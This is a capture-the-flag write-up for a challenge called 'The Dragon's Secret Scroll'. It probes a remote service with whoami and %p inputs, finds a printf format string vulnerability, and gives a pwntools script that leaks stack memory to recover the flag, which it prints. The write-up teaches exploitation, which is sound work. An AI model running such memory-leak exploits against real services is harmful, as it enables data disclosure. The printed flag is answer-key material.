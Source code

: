 https://ctftime.org/event/2209/

# The Dragon's Secret Scroll

In the ancient kingdom of Cypheria, nestled between soaring mountains and vast forests, there lies a legend of the Dragon's Secret Scroll. This mystical scroll, forged in the flames of a dragon's breath and guarded by the Order of the Cryptic Knights, is said to contain the wisdom of ages, including the secrets of the ancient and powerful dragons.
Note : Intentionally we didn't give you any binary. :D

Connection Information

nc 173.255.201.51 51337

## Solution

When connecting to the remote you can test various payloads e.g.:

1) `whoami` to test if the input is passed to bash
2) `AAAAAAAAAA...` sufficient As to test if input is truncated when printed or causes sigsev before getting printed
3) `%p.%p.%p.%p` to test for the presence of `printf(our_input)`

We can see that with a format string we get back addresses from the stack. So we can tell that our input is passed directly to `printf` ( most likely case anyway ):

```
$ nc 173.255.201.51 51337
                       ___====-_  _-====___
                 _--^^^#####//      \\#####^^^--_
              _-^##########// (    ) \\##########^-_
             -############//  |\^^/|  \\############-
           _/############//   (@::@)   \\############\_
          /#############((     \\//     ))#############\
         -###############\\    (oo)    //###############-
        -#################\\  / VV \  //#################-
       -###################\\/      \//###################-
      _#/|##########/\######(   /\   )######/\##########|\#_
      |/ |\#/\#/\#/\/  \#/\##\  |  |  /##/\#/  \/\#/\#| \|
      `  |/  V  \    /  /  V`| |  | |'|  V  \  \    /  V  \|  '
         `   `  `      `   / | |  | | \   '      '  '   '
                          (  | |  | |  )
                         __\ | |  | | /__
                        (vvv(VVV)(VVV)vvv)
Welcome knight !!
What do you want ?:
%p.%p.%p.%p
Sorry, I can't give you.. 0x7ffff7fb35c0.(nil).(nil).0x55555555a2bc
```

If we read further up the stack we can see that some of the addresses printed by %p look like strings encoded as little endian 8 byte hex. We can decode 3 of these, representing a buffer on the stack of up to 24 bytes, as follows:

```
from pwn import *

p = remote("173.255.201.51", 51337)

p.readuntil(b"What do you want ?:\n")

payload = b"%p." * 8
p.sendline(payload)

p.readuntil(b"Sorry, I can't give you.. ")

pointers = p.readline().decode().split(".")

flag = b""
flag += struct.pack("<Q", int(pointers[5], 16))
flag += struct.pack("<Q", int(pointers[6], 16))
flag += struct.pack("<Q", int(pointers[7], 16))

print(flag[:18].decode())
```

```
$ python3 go.py 
[+] Opening connection to 173.255.201.51 on port 51337: Done
KCTF{DRAGONsCrOll}
[*] Closed connection to 173.255.201.51 port 51337
```

## Flag
`KCTF{DRAGONsCrOll}`

